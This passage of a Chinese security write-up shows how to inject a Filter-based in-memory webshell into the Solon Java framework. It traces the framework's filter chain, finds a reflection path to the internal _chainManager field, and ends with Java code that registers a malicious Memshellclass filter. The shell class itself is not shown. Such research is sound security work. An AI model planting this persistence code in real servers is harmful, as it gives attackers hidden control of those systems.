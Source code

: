 接下来是找哪里调用这个addFilter或者addFilterIfAbsent

来到org.noear.solon.SolonApp的tryHandle方法

![image-20240810194758282](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-ccb1e9c5a9b11e2dd5ae62398e524ce9873a1fc8.png)

跟进this.chainManager()来到org.noear.solon.core.route.RouterWrapper

![image-20240810195953153](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-7c8989a32a7346486cbce0ed68a4870079207cf0.png)

这个this.\_chainManager是ChainManager对象，往前看可以看到addFilter()

![image-20240810200210499](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-52a2be392118ff8cd43c644681cbd5c0507a32c3.png)

到这里，可以清晰的知道，如果能通过上下文获取到`_chainManager`这个field，就能够添加任意的Filter了

下一步就是想办法获取到`_chainManager`这个field，这里借助了工具[Java Object Searcher](https://github.com/c0ny1/java-object-searcher)

编写代码搜索目标对象

```java
List<Keyword> keys = new ArrayList<>();  
keys.add(new Keyword.Builder().setField_type("_chainManager").build());  
SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);  
searcher.setIs_debug(true);  
searcher.setMax_search_depth(20);  
searcher.setReport_save_path("C:\\Users\\XXX\\Desktop\\demo");  
searcher.searchObject();
```

搜索结果：

```java
TargetObject = {java.lang.Thread}   
  ---> threadLocals = {java.lang.ThreadLocal$ThreadLocalMap}   
   ---> table = {class [Ljava.lang.ThreadLocal$ThreadLocalMap$Entry;}   
    ---> [13] = {java.lang.ThreadLocal$ThreadLocalMap$Entry}   
     ---> value = {org.noear.solon.boot.smarthttp.http.SmHttpContext}   
      ---> _request = {org.smartboot.http.server.impl.HttpRequestImpl}   
       ---> request = {org.smartboot.http.server.impl.Request}   
         ---> serverHandler = {org.noear.solon.boot.smarthttp.http.SmHttpContextHandler}   
          ---> handler = {org.noear.solon.boot.smarthttp.XPluginImp$$Lambda$97/1745043985}   
           ---> arg$1 = {org.noear.solon.SolonApp}   
             ---> _chainManager = {org.noear.solon.core.ChainManager}
```

其中`value = {org.noear.solon.boot.smarthttp.http.SmHttpContext}`是当前的上下文

![image-20240810201632619](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-817a3aa311af00449edb39481de106adee24c630.png)

在查询[官方文档](https://solon.noear.org/article/216)的过程中，可以得到几种获取当前上下文的方法,其中`Context ctx = Context.current();`是最合适的，它是基于 ThreadLocal 实现的

综上，得到注入Filter内存马的实现代码：

```php
Context ctx = Context.current();  
Object _request = getfieldobj(ctx,"_request");  
Object request = getfieldobj(_request,"request");  
Object serverHandler = getfieldobj(request,"serverHandler");  
Object handler = getfieldobj(serverHandler,"handler");  
Object arg$1 = getfieldobj(handler,"arg$1");  
ChainManager _chainManager = (ChainManager) getfieldobj(arg$1,"_chainManager");  
_chainManager.addFilter(new Memshellclass(),0);
```

